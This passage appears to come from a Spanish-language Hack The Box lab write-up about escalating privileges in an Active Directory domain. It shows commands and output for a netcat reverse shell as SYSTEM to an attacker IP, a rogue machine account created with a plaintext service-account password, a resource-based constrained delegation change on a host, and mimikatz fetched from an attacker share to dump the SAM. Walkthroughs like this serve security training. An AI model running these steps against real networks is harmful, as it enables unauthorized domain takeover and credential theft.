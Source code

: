 Para lograr eso, importaremos ambos módulos y utilizaremos netcat para enviarnos una sesión de PowerShell a nuestro host, pero ejecutándola como el usuario NT AUTHORITY\SYSTEM utilizando el parámetro 'AsSystem'.

```powershell
PS C:\Users\Administrator\Documents> Import-Module .\Invoke-CommandAs.ps1
PS C:\Users\Administrator\Documents> Import-Module .\Invoke-ScheduledTask.ps1
PS C:\Users\Administrator\Documents> Invoke-CommandAs -ScriptBlock { C:\Users\Administrator\Documents\netcat.exe -e powershell.exe 10.10.14.10 443 } -AsSystem  
PS C:\Users\Administrator\Documents>
```

```powershell
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.13.38.17
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.  

PS C:\Windows\system32> whoami
nt authority\system
PS C:\Windows\system32>
```

Una vez que hemos asegurado esta shell, importamos ambos módulos que subimos anteriormente. Luego, definimos las credenciales del usuario test-svc que tiene los privilegios necesarios. A continuación, agregamos una nueva cuenta de equipo, en este caso identificada con el nombre "attackersystem", y le asignamos una contraseña sencilla de recordar, como "123456".

```powershell
PS C:\Users\Administrator\Documents> Import-Module .\Powermad.ps1
PS C:\Users\Administrator\Documents> Import-Module .\PowerView.ps1  
PS C:\Users\Administrator\Documents> $SecPassword = ConvertTo-SecureString 'T3st-S3v!ce-F0r-Pr0d' -AsPlainText -Force
PS C:\Users\Administrator\Documents> $Cred = New-Object System.Management.Automation.PSCredential('htb.local\test-svc', $SecPassword)  
PS C:\Users\Administrator\Documents> New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Credential $Cred  
[+] Machine account attackersystem added
PS C:\Users\Administrator\Documents>
```

Siguiendo los pasos indicados por BloodHound en la sección de ayuda de GenericAll, obtenemos la variable $SDBytes del equipo "attackersystem" que hemos creado. Finalmente, establecemos el objeto hacia el equipo WEB donde tenemos los privilegios.

```powershell
PS C:\Users\Administrator\Documents> $ComputerSid = Get-DomainComputer attackersystem -Properties objectsid -Credential $Cred | Select -Expand objectsid
PS C:\Users\Administrator\Documents> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"  
PS C:\Users\Administrator\Documents> $SDBytes = New-Object byte[] ($SD.BinaryLength)
PS C:\Users\Administrator\Documents> $SD.GetBinaryForm($SDBytes, 0)
PS C:\Users\Administrator\Documents> Get-DomainComputer WEB -Credential $Cred | Set-DomainObject -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity'=$SDBytes} -Credential $Cred  
PS C:\Users\Administrator\Documents>
```


[dev.htb.local]: PS C:\Users\Administrator\Documents> whoami
[dev.htb.local]: PS C:\Users\Administrator\Documents>
[dev.htb.local]: PS C:\Users\Administrator\Documents> cp \\10.10.14.10\kali\mimikatz.exe .
[dev.htb.local]: PS C:\Users\Administrator\Documents> .\mimikatz.exe 'token::elevate' 'lsadump::sam' exit
[dev.htb.local]: PS C:\Users\Administrator\Documents>